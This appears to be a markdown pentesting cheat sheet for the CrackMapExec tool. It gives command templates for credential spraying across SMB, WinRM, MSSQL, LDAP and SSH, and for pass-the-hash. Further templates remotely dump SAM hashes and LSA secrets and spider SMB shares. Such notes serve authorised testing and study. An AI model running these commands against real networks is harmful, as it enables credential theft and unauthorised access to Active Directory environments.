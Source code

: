 # [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

> "A swiss army knife for pentesting networks." Especially useful for Active Directory environments.

---

## General Syntax: Pass a credential(s) to a target(s) to check for access

- `$MODULE`
	- `smb`
		- Useful for determining if a credential is valid
		- if `Pwned`, then the credential grants write access to `C$`
	- `winrm`
		- Even if a credential is valid, if that user doesn't have WinRM access, this will deny access
	- `mssql`
	- `ldap`
	- `ssh`
	- Not yet implemented: `rdp`
		- Even if a user doesn't have `smb` access, they may still have local `rdp` access. Unfortunately this isn't implemented yet, so you'll have to try it manually
- `$TARGET`
	  - Hostname
	  - IP address
	  - CIDR range
- `$DOMAIN`
	  - Active Directory domain name
- `$USERNAME`
	  - Single username
	  - File of usernames, one per line
- `$PASSWORD`
	  - Single password
	  - File of passwords, one per line

```bash
crackmapexec $MODULE $TARGET [-d $DOMAIN || --local-auth] -u $USERNAME -p $PASSWORD
```

- A successful credential pair will be highlighted in **green**
- A successful credential pair that also has remote access will be highlighted in **green** and designated ***Pwned***

---

## Remotely dump SAM hashes

```bash
crackmapexec smb $TARGET [-d $DOMAIN] -u $USERNAME -p $PASSWORD [--local-auth] --sam
```

---

## Remotely dump LSA secrets

```bash
cme smb $TARGET [-d $DOMAIN] -u $USERNAME -p $PASSWORD [--local-auth] --lsa
```

---

## List SMB Shares

```bash
crackmapexec smb $TARGET [-d $DOMAIN] -u $USERNAME [-p $PASSWORD || -H $NTLMHASH] --shares
```

---

## Spider SMB Shares

Spider an SMB share and write the resulting file listings in JSON to an attacker-local file.

```bash
crackmapexec smb $TARGET [-d $DOMAIN] -u $USERNAME [-p $PASSWORD || -H $NTLMHASH] -M spider_plus
```

Filter the results with `jq`!

```bash
cat /tmp/cme_spider_plus | jq
```
